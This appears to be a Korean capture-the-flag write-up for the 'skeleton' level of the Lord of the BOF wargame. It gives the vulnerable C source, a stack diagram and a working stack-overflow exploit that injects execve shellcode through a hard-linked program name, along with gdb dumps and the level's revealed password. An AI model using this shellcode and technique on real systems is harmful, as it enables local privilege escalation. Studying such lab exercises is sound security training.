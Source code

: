 ============================================================================================================
[redhat-lob] (10) skeleton
============================================================================================================

.. graphviz::

    digraph foo {
        a -> b -> c -> d;

        a [shape=box, label="dummy * 44 + program name address"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="program name address"];
    }

|

Source Code
============================================================================================================


.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i, saved_argc;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        // argc saver
        saved_argc = argc;

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // ultra argv hunter!
        for(i=0; i<saved_argc; i++)
            memset(argv[i], 0, strlen(argv[i]));
    }

|

Vulnerabliity Vector
============================================================================================================

main 함수의 ret를 덮어씌워 오버플로우를 발생시킨다.

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of main
    saved registers of main
    return address of main <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)    
    ==============================

|

Segmentation fault
============================================================================================================

Overflow condition 

- environ을 초기화하여 환경 변수 사용를 통한 쉘코드 삽입이 불가능하다.
- argv[1] value의 47번째 문자가 "\\xbf"이어야 함
- argv[1] 값의 길이가 48 미만 이어야 함
- argv[0] 값, argv[1] 값을 초기화하여 argv[0], argv[1] 주소로 버퍼오버플로우를 진행할 수 없다.


.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행.
    $ bash2

    $ ./skeleton `python -c 'print "a"*47'`
    stack is still your friend.

    $ ./skeleton `python -c 'print "a"*47+"\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================


프로그램 이름에 쉘코드 삽입
------------------------------------------------------------------------------------------------------------

기존에 사용한 쉘코드에는 "\\x2f" 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않는다.

"\\x2f"가 없는 쉘코드로 파일명을 생성하도록 한다.

.. code-block:: console
    
    $ ln skeleton2 `python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

    $ gdb -q `python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

    (gdb) b* main
    Breakpoint 1 at 0x8048500
    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/vampire/▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒P▒▒▒bWR▒▒▒QX]R▒▒PS▒▒1Ұ
                                             ̀ `python -c 'print "a"*47+"\xbf"'`

    /bin/bash: /home/troll/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()
    (gdb) x/100x $esp

    ==========================================================================
    0xbffffa0c:     0x400309cb      0x00000002      0xbffffa54      0xbffffa60
    0xbffffa1c:     0x40013868      0x00000002      0x08048450      0x00000000
    0xbffffa2c:     0x08048471      0x08048500      0x00000002      0xbffffa54
    0xbffffa3c:     0x08048390      0x080486ac      0x4000ae60      0xbffffa4c
    0xbffffa4c:     0x40013e90      0x00000002      0xbffffb4c      0xbffffbe6
    0xbffffa5c:     0x00000000      0xbffffc17      0xbffffc39      0xbffffc43
    0xbffffa6c:     0xbffffc51      0xbffffc70      0xbffffc80      0xbffffc99
    0xbffffa7c:     0xbffffcb4      0xbffffcbf      0xbffffccd      0xbffffd0e
    (중략)
    0xbfffff5c:     0x35333b31      0x682f003a      0x2f656d6f      0x706d6176
    0xbfffff6c:     0x2f657269      0x90909090      0x90909090      0x90909090
    0xbfffff7c:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffff8c:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffff9c:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffffac:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffffbc:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffffcc:     0x90909090      0x90909090      0xba50c031      0x11111111
    0xbfffffdc:     0x1e1ec281      0xba525762      0x11111111      0x511ec281
    0xbfffffec:     0x89525d58      0x895350e3      0xb0d231e1      0x0080cd0b
    0xbffffffc:     0x00000000      Cannot access memory at address 0xc0000000
    ==========================================================================

program명 주소를 찾아서 RET로 덮어씌우면 됩니다.


program name 쉘코드 실행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of main
    saved registers of main
    return address of main <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name ->> shellcode
    NULL
    ------------------------------
    HIGH (0xC0000000)    
    ==============================

|

.. code-block:: console

    $ ./`python -c 'print "\x90"*100+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'` `python -c 'print "a"*44+"\xbc\xff\xff\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒▒▒▒

    bash$ whoami
    skeleton
    bash$ my-pass
    euid = 510
    shellcoder
